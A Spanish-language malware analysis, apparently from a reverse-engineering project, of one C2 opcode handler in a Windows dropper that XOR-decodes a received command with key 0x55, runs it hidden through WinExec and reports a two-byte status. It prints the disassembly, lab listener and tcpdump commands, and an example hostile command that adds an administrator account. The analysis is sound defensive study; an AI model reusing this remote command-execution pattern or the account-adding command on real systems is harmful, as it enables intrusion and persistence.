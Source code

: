 # FUN_00402050 - Opcode 3

La función FUN_00402050 es el funcionamiento típico de un dropper / downloader:
- Decodifica un buffer de 256 bytes (0x100) usando XOR 0x55.
- Intenta ejecutar ese buffer como comando con WinExec().
- WinExec es una API antigua de Windows que ejecuta comandos o aplicaciones con nombre, sin redirección de consola.
- Reporta el resultado al servidor C2, dependiendo de si la ejecución fue exitosa o no.

## Análisis paso a paso:

### 1. Inicialización:
- `MOV ECX, dword ptr [ESP + param_2]`: Carga en el registro ECX la dirección de memoria de una cadena de caracteres (el segundo parámetro de la función). Esta cadena está actualmente cifrada.
- `XOR EAX, EAX`: Pone a cero el registro `EAX`, que se usará como contador del bucle.

### 2. Bucle de decodificación (LAB_00402056):
- El bucle se ejecuta 256 veces (desde `EAX=0` hasta `EAX=0xFF`, ya que `CMP EAX`, `0x100 y JL` significa "saltar si es menor").
- `MOV DL, byte ptr [EAX + ECX*0x1]`: Coge un byte de la cadena cifrada.
- `XOR DL, 0x55`: Esta es la clave. Realiza una operación XOR entre el byte del malware y la clave estática 0x55. Esta es una técnica de cifrado simétrico muy simple y común.
- `MOV byte ptr [EAX + ECX*0x1]`, DL: Sobrescribe el byte cifrado original con el nuevo byte decodificado.
- `INC EAX`: Incrementa el contador para pasar al siguiente byte.

### 3. Ejecución del comando:
- `PUSH 0x0 y PUSH ECX`: Prepara los argumentos para la función `WinExec`. `ECX` ahora apunta a la cadena recién decodificada y `0x0 (SW_HIDE)` le dice a Windows que ejecute el comando en una ventana oculta.
- `CALL dword ptr [->KERNEL32.DLL::WinExec]`: Llama a la función `WinExec` de la API de Windows, que ejecuta la cadena decodificada. Esta cadena podría ser cualquier cosa, como `"calc.exe", "cmd.exe /c net user admin pass /add"` o una ruta a otro malware.

### 4. Comprobación y acción secundaria:
- `CMP EAX, 0x1f`: Comprueba el valor de retorno de `WinExec`. Un valor mayor que `31 (0x1f) significa que la ejecución fue exitosa.
- Si la ejecución no fue exitosa (JLE salta si es menor o igual), el código llama a una función de la librería de sockets de Windows (`WS2_32.DLL`). Esto sugiere que si no puede ejecutar el comando local, podría intentar realizar una acción de red, como conectarse a un servidor de Comando y Control (C2) para reportar el error o descargar otra carga útil.


## Resumiendo
El malware no exfiltra la salida estándar del comando (lo que imprimiría whoami o ipconfig). Lo que hace es:
- Recibir el bloque de 256 B XOR-eado desde el C2.
- Decodificarlo (XOR 0x55) → obtiene el comando (ej. "cmd.exe /c whoami").
- Llamar a WinExec(cmd, 0).
- Revisar el valor de retorno de WinExec:
        - > 31h (49 decimal) = éxito.
        - ≤ 31h = error.
- Reportar sólo 2 bytes de estado al servidor (por lo que ves en el listener b'0\x00' con HEX=30 00).

Es decir:  
🔹 Ejecuta el comando en la VM infectada.  
🔹 Pero solo manda de vuelta al C2 un estado binario (ejecutado correctamente o error), nunca el output.  

Por eso en el listener lo único que recibe son esos 2 bytes de estado (0x30 00, que corresponde al éxito en whoami).


![opcode-3](../analisis-dinamico/capturas/opcode-3.png)


![opcode-3-2](../analisis-dinamico/capturas/opcode3-2.png)


# Análisis dinámico de Opcode 3

## Listener en python para poder probar este opcode
[listener-opcode3.py](../analisis-dinamico/listener-opcode-3.py)

Probaremos un listener que envía un buffer de 256 bytes (0x100) usando XOR 0x55.  
Activamos en la MV Remnux un listener para probar este opcode en x32dbg y hacemos una captura de los paquetes que circulan por la red:
```
sudo tcpdump -i any host 10.0.0.4
sudo pythom3 listener-opcode3.py
```

![opcode-3](../analisis-dinamico/capturas/opcode-3.png)


![opcode-3-2](../analisis-dinamico/capturas/opcode3-2.png)

El malware no exfiltra la salida estándar del comando (lo que imprimiría whoami o ipconfig). Lo que hace es:
- Recibir el bloque de 256 B XOR-eado desde el C2.
- Decodificarlo (XOR 0x55) → obtiene el comando (ej. "cmd.exe /c whoami").
- Llamar a WinExec(cmd, 0).
- Revisar el valor de retorno de WinExec:
        - > 31h (49 decimal) = éxito.
        - ≤ 31h = error.
- Reportar sólo 2 bytes de estado al servidor (por lo que ves en el listener b'0\x00' con HEX=30 00).

Es decir:  
🔹 Sí ejecuta el comando en la VM infectada.  
🔹 Pero solo manda de vuelta al C2 un estado binario (ejecutado correctamente o error), nunca el output.  

Por eso en el listener lo único que recibe son esos 2 bytes de estado (0x30 00, que corresponde al éxito en whoami).

Terminar su ejecución y regresa al switch para pedir optro opcode al host C2.

```
        00402043 90 90 90        align      align(13)
                 90 90 90 
                 90 90 90 
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __cdecl FUN_00402050(undefined4 param_1, LPCST
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x4]:4   param_1
             LPCSTR            Stack[0x8]:4   param_2                                 XREF[1]:     00402050(R)  
                             FUN_00402050                                    XREF[1]:     FUN_004012f0:00401740(c)  
        00402050 8b 4c 24 08     MOV        ECX,dword ptr [ESP + param_2]
        00402054 33 c0           XOR        EAX,EAX
                             LAB_00402056                                    XREF[1]:     00402065(j)  
        00402056 8a 14 08        MOV        DL,byte ptr [EAX + ECX*0x1]
        00402059 80 f2 55        XOR        DL,0x55
        0040205c 88 14 08        MOV        byte ptr [EAX + ECX*0x1],DL
        0040205f 40              INC        EAX
        00402060 3d 00 01        CMP        EAX,0x100
                 00 00
        00402065 7c ef           JL         LAB_00402056
        00402067 6a 00           PUSH       0x0
        00402069 51              PUSH       ECX
        0040206a ff 15 30        CALL       dword ptr [->KERNEL32.DLL::WinExec]              = 0000990a
                 90 40 00
        00402070 83 f8 1f        CMP        EAX,0x1f
        00402073 6a 00           PUSH       0x0
        00402075 6a 02           PUSH       0x2
        00402077 7e 11           JLE        LAB_0040208a
        00402079 8b 44 24 0c     MOV        EAX,dword ptr [ESP + 0xc]
        0040207d 68 94 a1        PUSH       DAT_0040a194                                     = 30h    0
                 40 00
        00402082 50              PUSH       EAX
        00402083 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        00402089 c3              RET
```


